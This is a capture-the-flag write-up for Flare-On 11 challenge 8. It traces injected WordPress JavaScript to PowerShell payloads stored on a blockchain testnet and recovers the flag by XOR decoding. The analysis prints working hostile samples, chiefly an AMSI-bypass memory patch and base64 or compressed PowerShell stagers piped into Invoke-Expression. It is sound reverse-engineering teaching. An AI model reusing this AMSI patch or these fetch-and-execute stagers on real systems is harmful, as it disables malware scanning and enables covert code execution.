 Flare-On 11 <br>By DisplayGFX <br>Challenge 8: clearlyfake
===

 Challenge Description:
```
I am also considering a career change myself but this beautifully broken JavaScript was injected on my WordPress site I use to sell my hand-made artisanal macaroni necklaces, not sure what’s going on but there’s something about it being a Clear Fake? Not that I’m Smart enough to know how to use it or anything but is it a Contract?
```

This challenge was pretty easy, after the heartache of 7, and the long slog of 5.

In the zip file this time is only one file, `clearlyfake.js`.

The file is too long to show, but it seems to be an obfuscation technique. Theres a project that will deobfuscate pretty well called [`restringer`](https://github.com/PerimeterX/restringer) . Run that and output to a new file. you should get something like the below

```js
const Web3 = require('web3');
const fs = require('fs');
const web3 = new Web3('BINANCE_TESTNET_RPC_URL');
const contractAddress = '0x9223f0630c598a200f99c5d4746531d10319a569';
async function callContractFunction(inputString) {
  try {
    const methodId = '0x5684cff5';
    const encodedData = '0x5684cff5' + web3.eth.abi.encodeParameters(['string'], [inputString]).slice(2);
    const result = await web3.eth.call({
      to: '0x9223f0630c598a200f99c5d4746531d10319a569',
      data: encodedData
    });
    const largeString = web3.eth.abi.decodeParameter('string', result);
    const targetAddress = Buffer.from(largeString, 'base64').toString('utf-8');
    const filePath = 'decoded_output.txt';
    fs.writeFileSync('decoded_output.txt', '$address = ' + targetAddress + '\n');
    const new_methodId = '0x5c880fcb';
    const blockNumber = 43152014;
    const newEncodedData = '0x5c880fcb' + web3.eth.abi.encodeParameters(['address'], [targetAddress]).slice(2);
    const newData = await web3.eth.call({
      to: '0x9223f0630c598a200f99c5d4746531d10319a569',
      data: newEncodedData
    }, 43152014);
    const decodedData = web3.eth.abi.decodeParameter('string', newData);
    const base64DecodedData = Buffer.from(decodedData, 'base64').toString('utf-8');
    fs.writeFileSync('decoded_output.txt', decodedData);
    console.log('Saved decoded data to:decoded_output.txt');
  } catch (error) {
    console.error('Error calling contract function:', error);
  }
}
const inputString = 'KEY_CHECK_VALUE';
callContractFunction('KEY_CHECK_VALUE');
```

This is very much a web3 challenge, on `BINANCE_TESTNET_RPC`. It also grabs some data from the contract, and base64 decodes it and writes the data to `decoded_output.txt`.

We can look at this contract [here](https://testnet.bscscan.com/address/0x9223f0630c598a200f99c5d4746531d10319a569) . Not much to gain with the transactions, however, we can disassemble the contract itself, which I have done [here](https://app.dedaub.com/decompile?md5=706b498d50dcfda49235d0af08e5388d). The important part is looking at the address in the binary `0x5324eab94b236d4d1456edc574363b113cebf09d` that is returned if the input passes all of the checks.

[The address](https://testnet.bscscan.com/address/0x5324eab94b236d4d1456edc574363b113cebf09d) shows a lot of transactions, but the one we care about right now is defined in the javascript, block #[43152014](https://testnet.bscscan.com/tx/0x05660d13d9d92bc1fc54fb44c738b7c9892841efc9df4b295e2b7fda79756c47). We know that a certain segment is decoded from base64, so grab the input bytes, and keep deleting until you get sensible text from the base 64. There are a bunch of null bytes, so getting the data right after the big gap, and deleting one character at a time in cyberchef should eventually result in this output.

```powershell
[sYstEm.Text.eNCODinG]::unicodE.getStrinG([sYstEm.cONvErt]::FroMbaSE64stRInG("Iw[snip]AA=="))|iex
```

That's powershell, and its executing whatever is in this next layer of base64. Decoding that should result in....

```powershell
#Rasta-mouses Amsi-Scan-Buffer patch \n
$fhfyc = @"
using System;
using System.Runtime.InteropServices;
public class fhfyc {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr ixajmz, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $fhfyc

$nzwtgvd = [fhfyc]::LoadLibrary("$(('ãmsí.'+'dll').NOrmAlizE([cHaR](70*31/31)+[char](111)+[Char]([Byte]0x72)+[CHaR](109+60-60)+[ChaR](54+14)) -replace [chaR]([bYTE]0x5c)+[CHar]([bYTE]0x70)+[ChAR](123+2-2)+[CHar]([byte]0x4d)+[ChAR]([bYTE]0x6e)+[char]([byTE]0x7d))")
$njywgo = [fhfyc]::GetProcAddress($nzwtgvd, "$(('ÁmsìSc'+'änBuff'+'er').NOrmALIzE([CHaR]([bYTE]0x46)+[Char]([bYTe]0x6f)+[cHAr]([bYTE]0x72)+[CHar](109)+[cHaR]([ByTe]0x44)) -replace [chAR](92)+[Char]([byTE]0x70)+[chaR]([bYTE]0x7b)+[chaR]([BYtE]0x4d)+[char](21+89)+[chaR](31+94))")
$p = 0
[fhfyc]::VirtualProtect($njywgo, [uint32]5, 0x40, [ref]$p)
$haly = "0xB8"
$ddng = "0x57"
$xdeq = "0x00"
$mbrf = "0x07"
$ewaq = "0x80"
$fqzt = "0xC3"
$yfnjb = [Byte[]] ($haly,$ddng,$xdeq,$mbrf,+$ewaq,+$fqzt)
[System.Runtime.InteropServices.Marshal]::Copy($yfnjb, 0, $njywgo, 6)
```

Still encoded, but I see `amsi.dll`, and there's a comment saying its an amsi patch. This should be enough as an exercise for the reader to decode, but I will move on.

If you look at block #[43149124](https://testnet.bscscan.com/tx/0x5a6675770eff26562a47efa4e22bbf29d764351c13d8b1dce1f9c4f6a471d2f3) with the same approach, youll get a different script

```powershell
invOKe-eXpREsSIon (NeW-OBJeCt SystEm.Io.StReaMREAdeR((NeW-OBJeCt Io.COMPRESsIOn.deflATestream( [sYSTeM.Io.memORyStREaM] [cONvErt]::fROmbAsE64StriNg('jV[snip]0v' ) , [iO.compRESSION.CompREsSionMode]::dEcoMPrEss ) ) , [SyStEm.TEXt.EnCodINg]::asCII)).ReaDTOEND()
```

This too executes base64 encoded powershell, but clearly this one is different. I used [`PowerDecode`](https://github.com/Malandrone/PowerDecode) to decompress and deobfuscate the powershell into something readable.

```powershell
Set-Variable -Name testnet_endpoint -Value (" ")
Set-Variable -Name _body -Value ('{"method":"eth_call","params":[{"to":"$address","data":"0x5c880fcb"}, BLOCK],"id":1,"jsonrpc":"2.0"}')
Set-Variable -Name resp -Value ((Invoke-RestMethod -Method 'Post' -Uri $testnet_endpoint -ContentType "application/json" -Body $_body).result)

# Remove the '0x' prefix
Set-Variable -Name hexNumber -Value ($resp -replace '0x', '')
# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes0 -Value (0..($hexNumber.Length / 2 - 1) | ForEach-Object {
    Set-Variable -Name startIndex -Value ($_ * 2)
    Set-Variable -Name endIndex -Value ($startIndex + 1)
    [Convert]::ToByte($hexNumber.Substring($startIndex, 2), 16)
}) 
Set-Variable -Name bytes1 -Value ([System.Text.Encoding]::UTF8.GetString($bytes0))
Set-Variable -Name bytes2 -Value ($bytes1.Substring(64, 188))

# Convert from base64 to bytes
Set-Variable -Name bytesFromBase64 -Value ([Convert]::FromBase64String($bytes2))
Set-Variable -Name resultAscii -Value ([System.Text.Encoding]::UTF8.GetString($bytesFromBase64))
Set-Variable -Name hexBytes -Value ($resultAscii | ForEach-Object {
    '{0:X2}' -f $_  # Format each byte as two-digit hex with uppercase letters
})
Set-Variable -Name hexString -Value ($hexBytes -join ' ') 
#Write-Output $hexString
Set-Variable -Name hexBytes -Value ($hexBytes -replace " ", "")
# Convert from hex to bytes (ensuring pairs of hex characters)
Set-Variable -Name bytes3 -Value (0..($hexBytes.Length / 2 - 1) | ForEach-Object {
    Set-Variable -Name startIndex -Value ($_ * 2)
    Set-Variable -Name endIndex -Value ($startIndex + 1)
    [Convert]::ToByte($hexBytes.Substring($startIndex, 2), 16)
})
Set-Variable -Name bytes5 -Value ([Text.Encoding]::UTF8.GetString($bytes3))
# Convert the key to bytes
Set-Variable -Name keyBytes -Value ([Text.Encoding]::ASCII.GetBytes("FLAREON24"))
# Perform the XOR operation
Set-Variable -Name resultBytes -Value (@())
for (Set-Variable -Name i -Value (0); $i -lt $bytes5.Length; $i++) {
    Set-Variable -Name resultBytes -Value ($resultBytes + ($bytes5[$i] -bxor $keyBytes[$i % $keyBytes.Length])) 
}
# Convert the result back to a string (assuming ASCII encoding)
Set-Variable -Name resultString -Value ([System.Text.Encoding]::ASCII.GetString($resultBytes))

Set-Variable -Name command -Value ("tar -x --use-compress-program 'cmd /c echo $resultString > C:\\flag' -f C:\\flag")
Invoke-Expression $command
```

Helpfully, the comments are included with this powershell script, these are from the decoding, not mine. From here, we can see that, whatever is being decrypted, its using `FLAREON24` as the XOR key.  Also, we know that its searching for strings that match `AA BB cc 11 22`, so if thats the decoded bytes, then its the kind of string to look for. We also know that `$address` is already set from the outermost javascript writing the line defining it with the address before the above block. 

Lets go block by block, find if any of them match after a base64 decode. There are a few matches
```
block #43149133:01 23 2e 36 65 3b 26 5b 5a 21 6c 35 3a 2c 3c 6e 5b 47 66 23 2f 72 31 27 2b 12 40 23 3f 35 3c 20 3b
block #43149124:1f 29 35 72 28 20 3c 57 14 28 23 28 21 20 6e 6f
block #43149119:0f 6c 36 3b 36 27 6e 46 5c 2f 3f 61 25 24 3c 6e 46 5c 23 6c 27 3e 24 28
block #43148912:08 7c 35 0d 76 39 7d 5c 6b 02 1c 13 19 1a 26 7b 6d 60 2e 7d 74 0d 74 7c 7d 05 6b 77 22 1e 05 20 2d 7d 72 52 2a 2d 33 37 68 20 20 1c 57 29 21
block #43145703:41 3a 7a 7b 3c 7c 3d 4a 50 4e 5e 76 44 55 67 11 50 5e 66 15 3a 55 3f 17 3c 3d 51 15 61 55 59 41 6d 39 4e 42 63 6b 7c 41 22 65 60 0a 6c 65 63
```

And lets reconfigure these into a python script to decrypt with xor

```python
bytestrings = [
    (b'41 3a 7a 7b 3c 7c 3d 4a 50 4e 5e 76 44 55 67 11 50 5e 66 15 3a 55 3f 17 3c 3d 51 15 61 55 59 41 6d 39 4e 42 63 6b 7c 41 22 65 60 0a 6c 65 63',43145703),
    (b'08 7c 35 0d 76 39 7d 5c 6b 02 1c 13 19 1a 26 7b 6d 60 2e 7d 74 0d 74 7c 7d 05 6b 77 22 1e 05 20 2d 7d 72 52 2a 2d 33 37 68 20 20 1c 57 29 21',43148912),
    (b'0f 6c 36 3b 36 27 6e 46 5c 2f 3f 61 25 24 3c 6e 46 5c 23 6c 27 3e 24 28',43149119),
    (b'1f 29 35 72 28 20 3c 57 14 28 23 28 21 20 6e 6f',43149124),
    (b'01 23 2e 36 65 3b 26 5b 5a 21 6c 35 3a 2c 3c 6e 5b 47 66 23 2f 72 31 27 2b 12 40 23 3f 35 3c 20 3b',43149133)
]

for y,blocknum in bytestrings:

    # Prepare for XOR operation
    hex_bytes_cleaned = y.decode().replace(" ", "")
    bytes3 = bytes(int(hex_bytes_cleaned[i:i+2], 16) for i in range(0, len(hex_bytes_cleaned), 2))
    # Convert the key to bytes
    key_bytes = b"FLAREON24"

    # Perform the XOR operation
    result_bytes = bytearray()
    for i in range(len(bytes3)):
        result_bytes.append((bytes3[i]) ^ (key_bytes[i % len(key_bytes)]))
    print(f"Result for block#{blocknum}:")
    print(result_bytes.decode())
    #print(result_bytes.hex())
```

```
$ python dumb.py   
Result for block#43145703:
v;)y3sx7(_bj Y{zXreS-
                     "w|v%'=g*.8X#/
Result for block#43148912:
N0t_3v3n_DPRK_i5_Th15_1337_1n_Web3@flare-on.com
Result for block#43149119:
I wish this was the flag
Result for block#43149124:
Yet more noise!!
Result for block#43149133:
Good thing this is on the testnet
```

And that is the flag. oddly enough, block #43145703 does seem to fit the format, as what I have above is what you get when you decode from base64 and run through the process, but as for what the data is? I have no idea. maybe more XORing, who knows.